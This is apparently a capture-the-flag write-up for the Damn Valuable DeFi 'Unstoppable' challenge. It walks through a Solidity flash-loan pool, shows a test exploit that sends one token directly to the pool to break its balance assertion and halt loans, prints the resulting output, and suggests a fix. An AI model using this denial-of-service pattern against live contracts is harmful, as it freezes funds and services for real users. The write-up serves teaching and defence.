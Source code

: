 # Unstoppable

## Introduction

The goal is stop pool from offering flash loan.
How does flash loan works?
In simple terms, flash loan are broken down into 3 steps and to be completed in a single transaction.
1) A loan from a pool of money is sent to receiver.
2) Receiver will use the money to execute a certain action from another smart contract.
3) Receiver will return the money with fixed rate (Something like an interest rate).

Reference: https://10clouds.com/blog/defi/understanding-flash-loans-in-defi/

## Code Breakdown

Let's start by breaking down the source code into functions.
There are two files - ***UnstoppableLender.sol*** and ***ReceiverUnstoppable.sol***.
***UnstoppableLender.sol*** will loan money to receiver and execute functions from ***ReceiverUnstoppable.sol***.

However, we'll look at ***UnstoppableLender.sol*** primarily.

There are a few variables declared, one consutructors and two functions in the smart contract.

For starters, this contract mainly use damnValuableToken as their main currency - ```IERC20 public immutable damnValuableToken```.
Openzeppelin is used to create the token.

Reference: https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20

```uint256 public poolBalance``` is created to store a pool token ready to be loaned. 

Next, a constructor is called whenever the smart contract is deployed.
Next, the tokens will be named as ***damnValuableToken***.
```
constructor(address tokenAddress) {
    require(tokenAddress != address(0), "Token address cannot be zero");
    damnValuableToken = IERC20(tokenAddress);
}
```
It requires ***tokenAddress*** and it performs a check if the address is 0. This will ensure the address integrity.

Now, we can talk about the functions in question.
Let's start with ***depositTokens***.
```
function depositTokens(uint256 amount) external nonReentrant {
    require(amount > 0, "Must deposit at least one token");
    // Transfer token from sender. Sender must have first approved them.
    damnValuableToken.transferFrom(msg.sender, address(this), amount);
    poolBalance = poolBalance + amount;
}
```

The functions require ***amount*** to be specified and more than 0 when it's called.
As part of an innate function from openzeppelin IERC20 , ```damnValuableToken.transferFrom(msg.sender, address(this), amount);``` will then transfer ```amount``` to ```address(this)``` from ```msg.sender```.
```msg.sender``` = sender address (deployer).
```address(this)``` = receiver address (pool smart contract address).
```amount``` = amount of tokens deposited to pool.

***poolBalance*** will be updated along with the new amount.
Note that this is the only place where ***poolBalance*** can be updated.


Next, ***flashLoan*** is the main function to execute a flash loan.
```
function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // Ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore);
    
    damnValuableToken.transfer(msg.sender, borrowAmount);
    
    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
    
    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

I'll breakdown a few requirements quickly.
```require(borrowAmount > 0, "Must borrow at least one token");``` = Amount borrowed must be more than 1 token.
```require(balanceBefore >= borrowAmount, "Not enough tokens in pool");``` = Current amount of tokens in the pool must be more than amount borrowed.
```assert(poolBalance == balanceBefore);``` = Current amount of tokens in poolBalance must be the same before the flashloan.
```damnValuableToken.transfer(msg.sender, borrowAmount);``` = Token transferred to receiver.
```IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);``` = Execute function in another contract ***ReceiverUnstoppable.sol***. During this function, tokens loaned to receiver will be returned to pool.
```require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");``` = Amount of tokens after loaned must be more than the amount of tokens before the loan

Critical factors to identify the vulnerability is completed. 
Pause here if you want to solve it yourself.

## Solution

Take a look at this section ```assert(poolBalance == balanceBefore);```.
Technically, there exist 2 pool balance - 1 in ***UnstoppableLender.sol** and ***DamnValuableToken.sol***.
Notice that ***poolBalance*** must be equal to ***balanceBefore***. These are the 2 pool balance
***poolBalance*** can only be increased from the function ***depositTokens***.
***balanceBefore*** checks for the current tokens in the pool directly from ***DamnValuableToken.sol*** (openzeppelin innate function). 
Therefore, both variables are async.
A simple solution is to transfer token directly into ***DamnValuableToken.sol*** to trigger a revert in ```assert(poolBalance == balanceBefore);```.

Here's the solution (I've added 2 functions in ***ReceiverUnstoppable.sol*** to retrieve the number of tokens in the pool)
```
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    //Before Transfer
    before_bal1 = await this.pool.getPoolBal();
    before_bal2 = await this.pool.getTokenBal();
    console.log("Before transfer:\nBalance from ReceiverUnstoppable.sol - ", before_bal1.toString());
    console.log("Balance from DamnValuableToken.sol - ", before_bal2.toString());

    //Transfer token to halt flashloan services
    console.log("Transferring 1 token to DamnValuableToken.sol pool");
    await this.token.transfer(this.pool.address, 1);

    //After Transfer
    after_bal1 = await this.pool.getPoolBal();
    after_bal2 = await this.pool.getTokenBal();
    console.log("After transfer:\nBalance from ReceiverUnstoppable.sol - ", after_bal1.toString());
    console.log("Balance from DamnValuableToken.sol - ", after_bal2.toString());
});
```

Functions added to reflect the result below
```
function getPoolBal() public view returns (uint256){
    return poolBalance;
}

function getTokenBal() public view returns (uint256){
    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    return balanceBefore;
}
```

Here's the result 
```
Before transfer:
Balance from ReceiverUnstoppable.sol -  1000000000000000000000000
Balance from DamnValuableToken.sol -  1000000000000000000000000
Transferring 1 token to DamnValuableToken.sol pool
After transfer:
Balance from ReceiverUnstoppable.sol -  1000000000000000000000000
Balance from DamnValuableToken.sol -  1000000000000000000000001
```


## Recommendations
By no means you should ever need two set of pools. For the sake of this challenge, one simple solution is to sync ***poolBalance*** and ***damnValuableToken.balanceOf(address(this))*** whenever a new token is transferred into either pool. Although it will create a whole new magntitude of problem but hey, at least its solved. :)
